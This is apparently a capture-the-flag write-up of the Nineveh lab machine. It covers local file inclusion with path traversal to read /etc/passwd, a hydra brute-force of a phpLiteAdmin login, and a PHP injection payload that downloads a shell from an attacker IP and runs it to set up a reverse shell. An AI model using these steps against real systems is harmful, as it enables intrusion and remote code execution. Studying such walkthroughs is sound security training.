 In the URL we see a parameter being passed. http://10.10.10.43/department/manage.php?notes=files/ninevehNotes.txt

In looking for local file inclusion (LFI), we discover that removing the .txt from the end of the parameter causes an error to be displayed.

```

Warning:  include(files/ninevehNotes): failed to open stream: No such file or directory in /var/www/html/department/manage.php on line 31



Warning:  include(): Failed opening 'files/ninevehNotes' for inclusion (include_path='.:/usr/share/php') in /var/www/html/department/manage.php on line 31
```

We try pulling /etc/passwd using this bug and are successful.
```
http://10.10.10.43/department/manage.php?notes=files/ninevehNotes/../../../../../../etc/passwd

root:x:0:0:root:/root:/bin/bash

...

amrois:x:1000:1000:,,,:/home/amrois:/bin/bash
sshd:x:111:65534::/var/run/sshd:/usr/sbin/nologin
```

Since we have LFI, we can leverage the exploitable PHP injection vulnerability in phpLiteAdmin.

### HTTPS
On TCP port 443 there is a custom image upload on the landing page. Fuzzing for directories, we find /db which is a phpLiteAdmin login form.

Attempt password bruteforce with hydra.
```
┌──(code㉿kali)-[~]
└─$ hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password." -V
```

The password `password123` logs us in. We leverage the PHP injection vulnerability demonstrated here: https://www.exploit-db.com/exploits/24044

# Exploitation

1. We create a database named hack.php
2. Create a new table within the hack.php database named hack with one field
3. Add a default text field with name hack and value `<?php system("wget http://10.10.14.17/shell.txt -O /tmp/shell.php;php /tmp/shell.php");?>`
4. Copy Pentest Monkey's php-reverse-shell.php (https://github.com/pentestmonkey/php-reverse-shell) to our local web root, editing the local ip and port parameters
